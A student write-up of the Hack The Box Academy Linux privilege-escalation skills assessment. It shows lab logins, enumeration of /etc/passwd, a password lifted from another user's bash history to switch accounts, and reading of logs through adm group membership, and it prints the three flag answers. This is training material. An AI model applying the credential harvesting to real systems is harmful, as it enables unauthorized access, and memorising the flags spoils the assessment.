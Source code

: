 # Linux Local Privilege Escalation - Skills Assessment

Username
```python
htb-student
```

Password
```python
Academy_LLPE!
```

IP
```python
10.129.30.244
```

SSH
```python
ssh htb-student@10.129.30.244
```


## TOC
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## Enumeration

##### Enumerating the `/etc/passwd` file, there are three additional users: mrb3n,tomact, barry

```python
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mrb3n:x:1000:1000:Ben:/home/mrb3n:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:997:997:Apache Tomcat:/:/bin/bash
barry:x:1001:1001::/home/barry:/bin/bash
htb-student:x:1002:1002::/home/htb-student:/bin/bash
```

##### Finding all writable files.
```python
htb-student@nix03:~$ find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
dev
home
proc
run
snap
sys
tmp
usr
var
```

##### Flag1

```python
LLPE{d0n_ov3rl00k_h1dden_f1les!}
```

```python
htb-student@nix03:~$ ls -la
total 32
drwxr-xr-x 4 htb-student htb-student 4096 Sep  6  2020 .
drwxr-xr-x 5 root        root        4096 Sep  6  2020 ..
-rw------- 1 htb-student htb-student   57 Sep  6  2020 .bash_history
-rw-r--r-- 1 htb-student htb-student  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 htb-student htb-student 3771 Feb 25  2020 .bashrc
drwx------ 2 htb-student htb-student 4096 Sep  6  2020 .cache
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .config
-rw-r--r-- 1 htb-student htb-student  807 Feb 25  2020 .profile
htb-student@nix03:~$ 
htb-student@nix03:~$ cd .config/
htb-student@nix03:~/.config$ 
-r--r-- 1 htb-student htb-student  807 Feb 25  2020 .profile
```

```python
htb-student@nix03:~/.config$ ls -la
total 12
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .
drwxr-xr-x 4 htb-student htb-student 4096 Sep  6  2020 ..
-rw-r--r-- 1 htb-student www-data      33 Sep  6  2020 .flag1.txt
htb-student@nix03:~/.config$ cat .flag1.txt
LLPE{d0n_ov3rl00k_h1dden_f1les!}
```

##### Flag 2

```python
LLPE{ch3ck_th0se_cmd_l1nes!}
```

Flag2 is in the home directory of the user `barry` but I can't read it
```python
htb-student@nix03:/home/barry$ ls -la
total 40
drwxr-xr-x 5 barry barry 4096 Sep  5  2020 .
drwxr-xr-x 5 root  root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 barry barry  360 Sep  6  2020 .bash_history
-rw-r--r-- 1 barry barry  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 barry barry 3771 Feb 25  2020 .bashrc
drwx------ 2 barry barry 4096 Sep  5  2020 .cache
-rwx------ 1 barry barry   29 Sep  5  2020 flag2.txt
drwxrwxr-x 3 barry barry 4096 Sep  5  2020 .local
-rw-r--r-- 1 barry barry  807 Feb 25  2020 .profile
drwx------ 2 barry barry 4096 Sep  5  2020 .ssh
```

Looking at the bash_history, `barry` ssh'd into `barry_adm@dmz1.inlanefreight.local` with the below password
```python
i_l0ve_s3cur1ty!
```

su'd into barry with the above password and gained #flag2
```python
 su barry
Password: 
barry@nix03:~$ ls -la
total 40
drwxr-xr-x 5 barry barry 4096 Sep  5  2020 .
drwxr-xr-x 5 root  root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 barry barry  360 Sep  6  2020 .bash_history
-rw-r--r-- 1 barry barry  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 barry barry 3771 Feb 25  2020 .bashrc
drwx------ 2 barry barry 4096 Sep  5  2020 .cache
-rwx------ 1 barry barry   29 Sep  5  2020 flag2.txt
drwxrwxr-x 3 barry barry 4096 Sep  5  2020 .local
-rw-r--r-- 1 barry barry  807 Feb 25  2020 .profile
drwx------ 2 barry barry 4096 Sep  5  2020 .ssh
barry@nix03:~$ cat flag2.txt
LLPE{ch3ck_th0se_cmd_l1nes!}
```

##### Flag 3

```
LLPE{h3y_l00k_a_fl@g!}
```

Looking at the barry's bash_history, he took a look at the /var/log directory. I can read it because barry is part of the adm group
```python
-rw-r--r--   1 root      root            443077 Sep  5  2020 dpkg.log.1
-rw-r--r--   1 root      root             32096 Sep  6  2020 faillog
-rw-r-----   1 root      adm                 23 Sep  5  2020 flag3.txt
```

```python
barry@nix03:/var/log$ cat flag3.txt
LLPE{h3y_l00k_a_fl@g!}
barry@nix03:/var/log$ 
```
